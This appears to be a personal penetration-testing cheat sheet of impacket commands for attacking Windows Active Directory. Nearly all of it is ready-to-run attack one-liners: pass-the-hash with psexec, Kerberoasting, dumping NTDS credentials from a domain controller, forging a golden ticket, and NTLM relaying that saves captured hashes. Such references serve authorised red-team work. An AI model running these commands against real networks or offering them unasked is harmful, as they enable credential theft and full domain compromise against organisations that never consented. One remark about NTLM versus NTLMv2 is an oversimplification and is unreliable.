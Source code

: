 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

impacket

Passing the hash only works with NTLM, not NTLMv2

PSExec usage:
~~~bash
impacket-psexec "username":password@ipaddress
~~~

PSExec usage with a hash:
~~~bash
impacket-psexec "username":@ipaddress -hashes FullNTLM:Hash
~~~

Kerberoasting SPN with Valid Credentials:
~~~bash
impacket-GetUserSPNs Domain/Username:Password -dc-ip [Domain Controller IP] -request -output krb5_ticket.txt
~~~

SMB Server with SMBv2 Support:
~~~bash
impacket-smbserver share 'pwd' -smb2support
~~~

RPCDump:
~~~bash
impacket-rpcdump @victimIP | egrep 'MS-RPRN|MS-PAR'
~~~

Convert .kirbi to .ccache:
~~~bash
impacket-ticketconverter user.kirbi user.ccache
~~~

dumping ntds from DC using ccache and secrets dump:
~~~bash
KRB5CCNAME=/home/kali/user.ccache impacket-secretsdump -k -no-pass -dc-ip DC_IP -target-ip DC_IP Server.FQDN
~~~

Generate Golden Ticket:
~~~bash
impacket-ticketer -nthash [DA NTLM Hash] -domain-sid [Domain SID] -domain FQDN.Domain DA_User
~~~

NTLMRelayX - Relay SMB/WPAD captured hashes to a target list and create socks proxy to the hosts via SMB and create a file with the captured hashes:
~~~bash
impacket-ntlmrelayx -tf targets.txt -smb2support -socks --output-file Captured_Hashes.txt
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
